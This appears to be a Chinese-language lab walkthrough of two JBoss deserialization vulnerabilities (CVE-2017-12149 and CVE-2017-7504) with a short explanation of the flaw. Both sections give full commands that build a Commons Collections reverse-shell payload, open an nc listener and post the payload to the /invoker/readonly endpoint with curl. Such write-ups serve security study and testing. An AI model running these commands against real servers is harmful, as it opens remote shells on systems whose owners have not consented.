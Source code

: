 # JBOSS反序列化漏洞

> CVE-2017-12149

### 环境准备

```cmd
git clone https://github.com/joaomatosf/JavaDeserH2HC.git
```

- 攻击机kali:`192.168.2.13`
- 靶机:`192.168.2.254`

### 开始攻击

- 首先cd到我们克隆下来的文件里,查看文件结构

![image-20241022143613098](./assets/image-20241022143613098.png)

- 编译并生成序列化数据`.class`文件

```cmd
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
```

![image-20241022144007147](./assets/image-20241022144007147.png)

- 序列化恶意数据到文件

```cmd
# 这里填写的ip为攻击机的ip
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.2.13:8888
```

![image-20241022143825307](./assets/image-20241022143825307.png)

- 监听`8888`端口

```cmd
nc -lvvp 8888
```

- 发送`ReverseShellCommonsCollectionsHashMap.ser`文件到靶机

```cmd
curl http://192.168.2.254:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```

![image-20241022144149002](./assets/image-20241022144149002.png)

- 反弹成功

![image-20241022144213573](./assets/image-20241022144213573.png)

### 原理

- jboss`介绍`:jboss是一个基于J2EE开放源代码应用服务器,也是一个管理EJB的容器和服务器
- 原理:在Jboss的`HttpInvoker`组件中`ReadOnlyAccessFilter`过滤器中,该过滤器在没有任何安全检查的情况下尝试将来自客户端的数据流进行`反序列化`,导致攻击者可以通过精心设计序列化数据来执行任意代码

****

# JBoss反序列化漏洞

> cve-2017-7504

### 环境准备

- 跟上面一样

### 开始攻击

- paylaod也是没有变化的

```cmd
# 生成序列化数据从 .class文件
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
# 序列化恶意类到文件
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.2.13:8888
# 监听
nc -lvvp 8888
# 发送数据
curl http://192.168.2.254:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```

![image-20241022150726106](./assets/image-20241022150726106.png)

****